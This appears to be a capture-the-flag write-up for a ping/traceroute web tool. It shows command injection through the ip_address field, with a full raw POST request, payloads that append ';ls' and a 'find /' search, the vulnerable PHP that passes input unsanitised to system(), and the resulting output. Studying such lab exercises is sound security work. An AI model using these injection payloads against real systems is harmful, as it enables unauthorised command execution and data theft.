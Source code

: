 Looking at the web title it says "rce", and since it is a webtool that seems to execute ping and traceroute commands maybe we can capture the packet and inject some commands.

There is the some method for performing the command execution.

1. By using ; (semicolon)
2. By using | (Or operator)
3. By using & ( ampersand operator )

POST / HTTP/1.1
Host: 142.93.39.188:31539
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://142.93.39.188:31539
Connection: close
Referer: http://142.93.39.188:31539/
Upgrade-Insecure-Requests: 1

cmd=ls&test=ping&ip_address=142.93.39.188;ls&submit=Test

With this payload we could see that we get inde.php
Executing the command: cat index.php
We get:

function getUserIp()
{
    return $_SERVER['REMOTE_ADDR'];
}

function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}

TO find the flag send the following payload:
cmd=ls&test=ping&ip_address=142.93.39.188;find%20/%20-name%20flag*%202>/dev/null&submit=Test

/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/sys/devices/pnp0/00:00/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/flag_sZhDJ


